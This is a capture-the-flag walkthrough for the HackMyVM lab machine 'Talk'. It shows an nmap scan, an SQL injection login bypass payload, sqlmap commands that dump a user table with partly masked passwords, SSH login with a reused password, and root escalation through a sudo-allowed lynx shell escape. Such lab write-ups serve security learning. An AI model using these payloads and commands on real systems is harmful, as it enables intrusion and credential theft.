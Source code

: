 # Talk - HackMyVM, writeup

## Port scan
```console
┌──(alienum㉿kali)-[~]
└─$ nmap 10.0.2.179   
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
## Login sql injection
```console
Username : admin' or '1'='1'-- -
Password : whateveryouwant
```
## POST request sql injection ( send_message.php )
- r.txt
```
POST /send_message.php HTTP/1.1
Host: 10.0.2.179
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 19
Origin: http://10.0.2.179
Connection: close
Referer: http://10.0.2.179/home.php
Cookie: PHPSESSID=m7ffe2uiavtmhbkmupt24lh2qi

msg=hi&id=1
```
#### SQLmap
```
sqlmap -r r.txt --tables
```
```
sqlmap -r r.txt --tables -D chat
```
```console
sqlmap -r r.txt --dump -D chat -T user
```
```
Database: chat
Table: user
[5 entries]
+--------+-----------------+-------------+-----------------+----------+-----------+
| userid | email           | phone       | password        | username | your_name |
+--------+-----------------+-------------+-----------------+----------+-----------+
| 5      | david@david.com | 11          | adrian*******   | david    | david     |
| 4      | jerry@jerry.com | 111         | thatsm********* | jerry    | jerry     |
| 2      | nona@nona.com   | 1111        | myfriend***     | nona     | nona      |
| 1      | pao@yahoo.com   | 09123123123 | pao             | pao      | PaoPao    |
| 3      | tina@tina.com   | 11111       | david********   | tina     | tina      |
+--------+-----------------+-------------+-----------------+----------+-----------+
```

## Reading the chat
```
 February 18, 2021 4:48:pm
nona: where is adrian?

February 18, 2021 4:49:pm
tina: he got hacked!

February 18, 2021 4:49:pm
jerry: all of us....

February 18, 2021 4:50:pm
nona: :(
```
- The hacker shuffle the passwords 
#### Correct username & password matching
```
nona  : thatsm*********
```
## SSH as nona
```console
┌──(alienum㉿kali)-[~]
└─$ ssh nona@10.0.2.179                                    
nona@10.0.2.179's password: thatsm*********
nona@talk:~$ ls
flag.sh  user.txt
nona@talk:~$
```
## Root
#### sudo -l

```console
nona@talk:~$ sudo -l
Matching Defaults entries for nona on talk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nona may run the following commands on talk:
    (ALL : ALL) NOPASSWD: /usr/bin/lynx
```
####
```console
nona@talk:~$ sudo -u root /usr/bin/lynx
Spawning your default shell.  Use 'exit' to return to Lynx.

Press : SHIFT + 1

root@talk:/home/nona# cd
root@talk:~# ls
flag.sh  root.txt
root@talk:~#
```
## Thanks sML
